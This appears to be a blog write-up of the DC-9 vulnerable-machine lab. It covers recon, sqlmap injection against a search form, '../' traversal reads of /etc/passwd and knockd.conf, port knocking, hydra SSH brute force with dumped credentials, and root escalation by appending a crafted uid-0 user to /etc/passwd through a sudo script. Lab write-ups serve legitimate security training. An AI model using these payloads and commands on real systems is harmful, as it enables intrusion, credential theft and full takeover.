 ```yaml
---
layout: post
title: DC-9
subtitle: DC-9
date: 2025-07-17 11:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

扫描IP发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/RMLHfa.png)

扫描端口，发现80端口开放，22端口 `filtered` 说明可能存在ssh服务，但被拒绝访问

```shell
nmap -T4 -A -p- 192.168.163.135
```

![image.png](https://img.ghostliner.top/EEZYUr.png)

扫描目录

```shell
dirsearch -u http://192.168.163.135/ -e* -i 200
```

![image.png](https://img.ghostliner.top/pizDdy.png)

`/search.php`发现搜索框，使用sqlmap测试

## 2. 数据库爆破

使用bp抓取提交搜索的数据包，保存到`a.txt`文件中

```http
POST /results.php HTTP/1.1
Host: 192.168.163.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.163.135
Connection: close
Referer: http://192.168.163.135/search.php
Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=12
```

sqlmap 测试 `search`字段是否存在注入漏洞

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
```

![image.png](https://img.ghostliner.top/7YhjJ5.png)

发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`

### 2.1. 爆破 Staff 数据库

获取表名
![image.png](https://img.ghostliner.top/UzD1Aj.png)

获取列名
![image.png](https://img.ghostliner.top/EuucQt.png)

获取用户名、密码
![image.png](https://img.ghostliner.top/GKW85t.png)

得到密码：`transorbital1`

### 2.2. 爆破 users 数据库

获取 `users` 数据库数据

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
```

![image.png](https://img.ghostliner.top/eQ4HRT.png)

相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到kali中，之后用来SSH爆破
![image.png](https://img.ghostliner.top/t6HFtP.png)

## 3. 网站登录

通过用户：admin 密码：transorbital1 登录成功

发现 `File does not exist` 字段，猜测有文件包含漏洞

![image.png](https://img.ghostliner.top/ebtKO6.png)

测试url: <http://192.168.163.135/manage.php?file=../../../../etc/passwd> ，成功获取到数据

由于ssh服务为 `filtered` 猜测是否存在敲门

构造url: <http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf> ，访问成功

![image.png](https://img.ghostliner.top/IwnyAA.png)

## 4. SSH爆破

根据文件中的端口，依次访问

```shell
nc 192.168.163.135 7469
nc 192.168.163.135 8475
nc 192.168.163.135 9842
```

再次扫描端口，发现已开放

![image.png](https://img.ghostliner.top/dufBKT.png)

将爆破 `users` 数据库得到的`.csv`文件内容复制到kali，保存为user.txt，使用vim将其中的 `,` 替换为 `:`，构造为符合hydra的格式

```vim
:%s/,/:/g
```

hydra爆破SSH

```shell
hydra -C user.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/iG2yVd.png)

| 用户名       | 密码          |
| --------- | ----------- |
| chandlerb | UrAG0D!     |
| janitor   | Ilovepeepee |
| joeyt     | Passw0rd    |

janitor登陆成功，发现以下文件

![image.png](https://img.ghostliner.top/YjkmXE.png)

查看内容，疑似密码

![image.png](https://img.ghostliner.top/3WRnwe.png)

保存到文件中，并将之前的user.txt内容删去密码

```vim
:%s/:.*//g
```

爆破用户名密码

```shell
hydra -L user.txt -P pass.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/7vJOMF.png)

| 用户名   | 密码          |
| ----- | ----------- |
| fredf | B4-Tru3-001 |
| joeyt | Passw0rd    |

获取到新的用户名，发现为系统管理员

![image.png](https://img.ghostliner.top/o9vgFE.png)

## 5. root提权

登录成功，尝试 `sudo -l` 提权

![image.png](https://img.ghostliner.top/GQZeqJ.png)

发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件

![image.png](https://img.ghostliner.top/NDQyxu.png)

搜索上级目录，发现源代码文件 `test.py`

![image.png](https://img.ghostliner.top/AhWaag.png)

查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中

```python
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
else :
    f = open(sys.argv[1], "r")
    output = (f.read())
    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

利用思路：向 `/etc/passwd` 中追加root权限用户，之后切换到该用户，实现root提权

使用无密码用户提权失败，因此生成加密密码，构造有密码用户

```shell
openssl passwd -1 123
# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
```

构造 `/etc/passwd` 格式，保存到临时文件，执行test脚本将其追加到 `/etc/passwd` 中

```shell
echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
sudo ./test /tmp/tf /etc/passwd
su rroott
```

提权成功

![image.png](https://img.ghostliner.top/Il8qMj.png)

获取flag文件

![image.png](https://img.ghostliner.top/I1138g.png)
